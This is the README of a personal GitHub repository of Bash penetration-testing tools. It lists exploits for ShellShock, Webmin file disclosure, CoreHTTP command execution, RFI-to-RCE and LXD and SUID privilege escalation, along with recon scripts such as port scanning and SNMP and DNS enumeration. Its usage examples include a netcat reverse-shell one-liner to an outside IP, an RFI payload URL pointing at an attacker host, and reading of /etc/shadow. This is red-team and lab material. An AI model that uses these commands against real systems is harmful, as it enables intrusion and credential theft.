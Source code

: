 # Bash
Collection of bash tools I wrote to make my life easier or test myself. The help switch defined for these scripts is written with the assumption these exist in a PATH environmnet variable. Typically commands such as these should be placed in /usr/local/bin. This is considered best practice for Linux. Most of these tools will be useful to Red Teamers.

## ADD COMMANDS TO /usr/local/bin
Enter the below commands to download this repo, make the .sh files executable and place the .sh executable files into your /usr/local/bin so you can use for example "getip" instead of ./getip.sh to execute the commands.
```sh
git clone https://github.com/tobor88/Bash
cd Bash
sudo chmod u+x *.sh
files=$(ls *.sh)
for f in $files; do cp "$f" /usr/local/bin/"${f%.sh}"; done
```
---
#### BASH EXPLOITS
- __CVE-2014-6271.sh__ This exploit is used to execute commands on a remote server vulnerable to the CVE-2014-6271 ShellShock vulnerability. It creates a webshell at /var/www/html/simple.php and uses curl to simulate a shell like session. Currently only able to issue one word commads. I plan adding more functionality in the future.
![ShellShock CVE-2015-6271](https://raw.githubusercontent.com/tobor88/Bash/master/shellshock.png)

- __CVE-2006-3392.sh__ This exploit is used to perform an unauthenticated remote file disclosure on Webmin version <1.29x.
```bash
./CVE-2006-3392.sh 10.11.1.141 10000 http /etc/shadow
```
![CVE-2006-3392](https://raw.githubusercontent.com/tobor88/Bash/master/cve20063392.png)

- __LXD Privilege Escalation__ This exploit can be used to escalate privileges in a Linux environment where the user is a member of the lxd group. 
```bash
# Example Usage:
./lxd_privesc.sh container01
# RESULTS
Device rootdisk added to container01
Device rootdisk removed from container01
[*] Execution completed
uid=0(root) gid=0(root) groups=0(root)
root@example:/dev/shm/.tobor# exit
```

- __CoreHTTP 0.5.3.1 - 'CGI' Arbitrary Command Execution__ This exploit is used to obtain a reverse shell from a remote server hosting a CoreHTTP instance version 0.5.3.1 or lower. CoreHTTP server fails to properly sanitize input before calling the popen() function in http.c. Define a reverse shell to execute. I have a common list on my site [Reverse Shells Here](https://roberthosborne.com/reverse-shells)
```bash
# Example Usage:
./corehttp-rev-shell.sh -u 'http://10.11.1.2:10443/foo.pl' -s 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.172 1338 >/tmp/f'
```
![corehttp-reverse-shell](https://raw.githubusercontent.com/tobor88/Bash/master/corehttp-rev-shell.png)

- __rfi-rce.sh__ This is a command that can be used to simplify RCE through a remote file inclusion vulnerability by exploiting it in a shell like fashion.
```bash
rfi-rce -f /var/www/html/evil.txt -u "http://target-ip/section.php?page=http://attacker-ip/evil.txt"
```
![rfi-rce.sh](https://raw.githubusercontent.com/tobor88/Bash/master/rfi-rce.png)

---
#### BASH COMMANDS
- __readid.sh__ This is complete. (Disaplys the /etc/passwd, /etc/shadow, or /etc/group files into an easy to read format)

![readid.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/readid_img.png)


- __getip.sh__ I view this as done. (Restrieves and displays the public and private IP addresses on a computer)

![getip.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/getip_img.png)


- __pingsweep.sh__ This works best when fping is installed on your Linux distro. If fping is not installed it will failover to using the ping command instead. The timeout for ping is set to 1 second so if you are using this with proxychains you may need to mess around with this setting.

![pingsweep.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/pingsweep_img.png)


- __portscan.sh__ In the future I will add more input validation and error handling. (Custom port scanner. Check all ports, one port, or a custom range of ports.)

![portscan.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/portscan_img.png)


- __massnmp.sh__ Script I built to quickly obtain SNMP information from a defined subnet range. This was written for Kali so it uses OneSixtyOne and SNMP-Check. If these are not already installed they will need to be for the script to work. This script will build 3 files in your /tmp directory which means on next restart they will be deleted. Enumerated SNMP info on different targets will be placed into a txt file in the $PWD the script was executed from.

![massnmp.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/massnmp.png)


- __absolutepathit.sh__ This command is used to convert all relative commands in a script to absolute path commands. To play this one safe I have it create a copy of the script you wrote and places it in a file called /tmp/absolutepathit_tmpinfo. This file has all comments removed from it and replaces any commands that have a result value obtained from the command $(which <cmd>) with the absolute path value result for that command. 
 Copy and paste the results into your script to ensure you dont lost your comments and to ensure any possible command words you have in echo quotations are what you want. 
 This is not perfect yet as you can see in the image below it misses curl.
 
 ![absolutepathit.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img.png) 

 To deal with that issue I added line 40 which will obtain commands that are located next to a ( character. This does not misinterpret _print_ in the __awk__ command. 
 
 ![absolutepathit.sh results improvement](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img2.png)
 
 The issue I noticed came from another script came from a website in the bash script. This is because the slash is viewed as an escape character. Any contributions are welcome. This is still a work in progress.

- __enablespoofing.sh__ This is a simple script meant to take care of the tasks neccessary to allow dns spoofing on Kali Linux. It enables port forwarding on ipv4 and allows DNS traffic.

- __dnslookup.sh__ This command is meant to perform a mas dns lookup based on an IPv4 address range. Returns output in the below format
```sh
--------------------------------------------
| IP Address              |     FQDN's     |
--------------------------------------------
2.2.0.10.in-addr.arpa DC.osbornepro.com.
4.2.0.10.in-addr.arpa DEV.osbornepro.com.
```

- __enum_dns_servers.sh__ This command is meant to return the DNS servers in a domain. This is most useful when having a local domains DNS server set in your /etc/resolv.conf file.
```sh
---------------
| DNS Servers |
---------------
dns1.osbornepro.com.
dns2.osbornepro.com.
```
- __rcp-suid-privesc.sh__ This can be used to exploit the SUID bit on rcp. This only works on certain Operating Systems. Successfully tested on Red Hat 6.2. THere is a perl version of this script on exploitdb.

- __suidcheck.sh__ Needs a lot of work (Checks for exploitable suid bits and attempts to exploit them if they exist. Also returns cron job scripts)
